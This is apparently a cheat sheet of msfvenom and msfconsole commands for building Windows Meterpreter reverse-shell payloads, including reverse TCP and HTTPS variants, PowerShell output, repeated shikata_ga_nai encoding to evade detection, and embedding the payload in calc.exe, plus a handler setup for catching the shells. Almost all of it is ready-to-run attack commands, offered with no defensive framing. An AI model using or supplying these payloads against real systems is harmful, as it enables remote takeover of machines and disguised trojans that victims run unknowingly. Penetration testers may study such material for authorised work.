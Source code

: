 # Msfvenom

Examples of previously created MSFVenom payloads required in the different scenarios

##### Reverse TCP:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -o meterpreter.exe
```

##### Encoded multiple times:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -e x86/shikata_ga_nai -i 10 -f exe -o meterpreter.exe
```
##### Powershell Reverse TCP
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.5.64 LPORT=443 -e x86/shikata_ga_nai -i 10 -f powershell -o meterpreter.ps1```
```

##### Add Windows Calc.exe as a template:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -f exe -x calc.exe -e x86/shikata_ga_nai -i 10 -f exe -o meterpreter.exe
```


##### Reverse HTTPS with proxy authentication:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_https HttpProxyUser=user HttpProxyPass=password LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -o meterpreter.exe
```

##### MSF Console:
```
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
windows/meterpreter/reverse_tcp
set lhost 10.0.0.1
set lport 443
exploit -j
```
